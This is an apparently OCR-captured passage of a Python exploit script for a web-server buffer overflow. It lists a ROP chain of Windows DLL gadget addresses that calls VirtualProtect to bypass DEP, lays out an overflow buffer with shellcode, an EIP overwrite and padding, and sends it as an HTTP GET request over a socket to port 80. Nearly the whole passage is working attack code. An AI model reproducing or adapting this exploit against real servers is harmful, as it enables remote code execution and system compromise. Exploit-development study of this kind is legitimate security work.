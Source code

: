 ```python
      0x77e71210,  # ptr to &VirtualProtect() [IAT RPCRT4.dll]
      0x77e87a76,  # MOV EAX,DWORD PTR DS:[EAX] # RETN [RPCRT4.dll] 
      0x5d0f11f6,  # XCHG EAX,ESI # RETN [COMCTL32.dll] 
      #[---INFO:gadgets_to_set_ebp:---]
      0x77c20583,  # POP EBP # RETN [msvcrt.dll] 
      0x77df965b,  # & jmp esp [ADVAPI32.dll]
      #[---INFO:gadgets_to_set_ebx:---]
      0x76f3c426,  # POP EAX # RETN [DNSAPI.dll] 
      0xfffffdff,  # Value to negate, will become 0x00000201
      0x77dd9b06,  # NEG EAX # RETN [ADVAPI32.dll] 
      0x77f301e4,  # XCHG EAX,EBX # RETN [GDI32.dll] 
      #[---INFO:gadgets_to_set_edx:---]
      0x7c87f318,  # POP EAX # RETN [kernel32.dll] 
      0xffffffc0,  # Value to negate, will become 0x00000040
      0x76f75057,  # NEG EAX # RETN [WLDAP32.dll] 
      0x77c58fbc,  # XCHG EAX,EDX # RETN [msvcrt.dll] 
      #[---INFO:gadgets_to_set_ecx:---]
      0x77c521ee,  # POP ECX # RETN [msvcrt.dll] 
      0x7e47292c,  # &Writable location [USER32.dll]
      #[---INFO:gadgets_to_set_edi:---]
      0x7c902579,  # POP EDI # RETN [ntdll.dll] 
      0x77e8d224,  # RETN (ROP NOP) [RPCRT4.dll]
      #[---INFO:gadgets_to_set_eax:---]
      0x7c880176,  # POP EAX # RETN [kernel32.dll] 
      0x90909090,  # nop
      #[---INFO:pushad:---]
      0x77dfc5ee,  # PUSHAD # RETN [ADVAPI32.dll] 
    ]
    return ''.join(struct.pack('<I', _) for _ in rop_gadgets)

rop = create_rop_chain()

# payload = 'A' * 103 + shellcode + 'A' * (until 967) + EIP + '\xff\xff\xff\xff' + rop + JMP + 'E' * (until 1500)

buffer += shellcode
buffer += 'A' * (offset_eip - len(buffer))
buffer += EIP
buffer += '\xff\xff\xff\xff' # value poped to ECX (padding)
buffer += rop
buffer += JMP
buffer += 'E' * (1500 - len(buffer))
HOST = '127.0.0.1'
PORT = 80

req = "GET /"+buffer+"HTTP/1.1\r\n\r\n"
print "Sending "+str(len(req))+" bytes."
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))
s.send(req)
data = s.recv(1024)
s.close()
print 'Received', repr(data)
```

